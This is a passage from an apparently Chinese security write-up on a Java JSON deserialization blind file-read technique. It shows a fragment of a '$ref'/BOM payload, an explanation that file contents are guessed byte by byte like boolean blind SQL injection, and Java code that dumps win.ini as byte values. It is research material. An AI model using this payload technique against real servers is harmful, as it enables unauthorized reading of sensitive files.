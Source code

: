 ```json
      }
    ]
  },
  "address" : {"$ref":"$.abc.BOM"}
}
```

![image-20231021003605584](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021003605584.png)

> 它会拿`win.ini`的内容转成`int`数组，然后拿`ByteOrderMark`里的`bytes`挨个字节遍历去比对，如果遍历过程有比对错误的`getBom`就会返回一个`null`，如果遍历结束，没有比对错误那就会返回一个`ByteOrderMark`对象。所以这里文件读取成功的标志应该是`getBom`返回结果不为`null`。

有点`sql`注入中布尔盲注的味道，哈哈。

附上读取文件内容到字节数组的代码：

```java
import java.io.FileReader;
import java.io.IOException;

public class str2bytes {
    public static String fileToString(String path) throws IOException {
        FileReader reader = new FileReader(path);
        StringBuilder stringBuilder = new StringBuilder();
        char[] buffer = new char[10];
        int size;
        while ((size = reader.read(buffer)) != -1) {
            stringBuilder.append(buffer, 0, size);
        }
        return stringBuilder.toString();
    }

    public static void main(String[] args) throws IOException {
        String str = fileToString("C:\\Windows\\win.ini");
        byte[] byteArray = str.getBytes("UTF-8");
        boolean first = true;
        for (byte b : byteArray) {
            int intValue = b & 0xFF;
            if (first) {
                System.out.print(intValue);
                first = false;
            } else {
                System.out.print(", " + intValue);
            }
        }
    }
}

//59, 32, 102, 111, 114, 32, 49, 54, 45, 98, 105, 116, 32, 97, 112, 112, 32, 115, 117, 112, 112, 111, 114, 116, 13, 10, 91, 102, 111, 110, 116, 115, 93, 13, 10, 91, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 109, 99, 105, 32, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 102, 105, 108, 101, 115, 93, 13, 10, 91, 77, 97, 105, 108, 93, 13, 10, 77, 65, 80, 73, 61, 49, 13, 10
```
